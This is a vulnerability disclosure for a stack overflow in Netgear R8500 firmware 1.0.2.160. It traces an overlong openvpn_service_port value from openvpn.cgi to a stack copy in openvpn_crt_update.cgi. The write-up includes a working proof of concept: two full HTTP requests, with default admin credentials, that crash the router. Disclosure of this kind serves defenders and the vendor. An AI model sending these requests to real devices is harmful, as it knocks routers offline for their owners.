



# Netgear Vulnerability

Vendor:Netgear

Product:R8500

Version:1.0.2.160

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `openvpn.cgi` function, `openvpn_service_port、openvpn_service_port_tun` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `openvpn_service_port、openvpn_service_port_tun` to execute arbitrary code.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `openvpn_crt_update.cgi` function. The parameter `openvpn_service_port、openvpn_service_port_tun` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

In `libacos_shared.so` binary:

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `openvpn_service_port`, in `openvpn.cgi`
* visit the `openvpn_crt_update.cgi`


## PoC

We set `openvpn_service_port` as **aaaaa......** , in `openvpn.cgi`

```http
POST /openvpn.cgi?id=6796ad6a32349b37d16c2ff4338f6e463a0441bffb1adad4fe0368511ebc373b HTTP/1.1
Host: 192.168.1.1
Content-Length: 1246
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/OPENVPN.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close

Apply=%E5%BA%94%E7%94%A8&openvpnActive=openvpnDisable&openvpn_protocol_tun=udp&openvpn_service_port_tun=12973&openvpn_protocol=udp&openvpn_service_port=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&openvpn_redirectGW=auto&wan_protocol=dhcp&pppoe_dod=1&l2tp_dod=1&pptp_dod=1&dod_type_change=0
```

<div  align="center"></div>

visit the `openvpn_crt_update.cgi`

```http
POST /openvpn_crt_update.cgi?id=ba3be70463fa388121065034e6f7a86d7365f0bcd98198bf8aed5e45351b0abc HTTP/1.1
Host: 192.168.1.1
Content-Length: 102
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
Origin: http://192.168.1.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.1/openvpn_crt_update.htm
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF_TOKEN=1222440606
Connection: close

buttonHit=update_vpn_cert&buttonValue=%E6%9B%B4%E6%96%B0&update_vpn_cert=+%E6%9B%B4%E6%96%B0&progress=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
